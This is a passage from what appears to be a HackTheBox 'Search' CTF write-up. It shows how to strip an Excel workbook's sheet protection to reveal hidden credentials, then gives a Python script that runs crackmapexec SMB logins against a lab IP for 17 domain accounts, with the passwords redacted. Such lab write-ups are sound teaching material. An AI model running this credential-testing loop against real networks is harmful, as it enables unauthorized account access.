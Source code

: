 ```shell
  adding: xl/drawings/drawing1.xml (deflated 58%)
  adding: xl/drawings/_rels/ (stored 0%)
  adding: xl/drawings/_rels/drawing1.xml.rels (deflated 39%)
  adding: xl/_rels/ (stored 0%)
  adding: xl/_rels/workbook.xml.rels (deflated 74%)
  adding: xl/calcChain.xml (deflated 55%)
  adding: xl/printerSettings/ (stored 0%)
  adding: xl/printerSettings/printerSettings1.bin (deflated 67%)
  adding: xl/printerSettings/printerSettings2.bin (deflated 67%)
  adding: xl/theme/ (stored 0%)
  adding: xl/theme/theme1.xml (deflated 80%)
  adding: docProps/ (stored 0%)
  adding: docProps/app.xml (deflated 52%)
  adding: docProps/core.xml (deflated 47%)
  adding: [Content_Types].xml (deflated 79%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 60%)
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Search/images/Pasted%20image%2020230727171933.png)

Now the protection is gone!

**Let's unhide column C:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Search/images/Pasted%20image%2020230727172047.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Search/images/Pasted%20image%2020230727172105.png)

Nice!

**Again, we can verify those credentials are valid or not:**
```python
#!/usr/bin/env python3
from os import system

if __name__ == '__main__':
    RHOSTS = '10.10.11.129'
    domainUsers = {
        'hope.sharp': '{Redacted}',
        'Edgar.Jacobs': '{Redacted}',
        'Payton.Harmon': '{Redacted}',
        'Cortez.Hickman': '{Redacted}',
        'Bobby.Wolf': '{Redacted}',
        'Margaret.Robinson': '{Redacted}',
        'Scarlett.Parks': '{Redacted}',
        'Eliezer.Jordan': '{Redacted}',
        'Hunter.Kirby': '{Redacted}',
        'Sierra.Frye': '{Redacted}',
        'Annabelle.Wells': '{Redacted}',
        'Eve.Galvan': '{Redacted}',
        'Jeramiah.Fritz': '{Redacted}',
        'Abby.Gonzalez': '{Redacted}',
        'Joy.Costa': '{Redacted}',
        'Vincent.Sutton': '{Redacted}',
        'web_svc': '{Redacted}'
    }

    for user, password in domainUsers.items():
        system(f"crackmapexec smb {RHOSTS} -u '{user}' -p '{password}'")
```
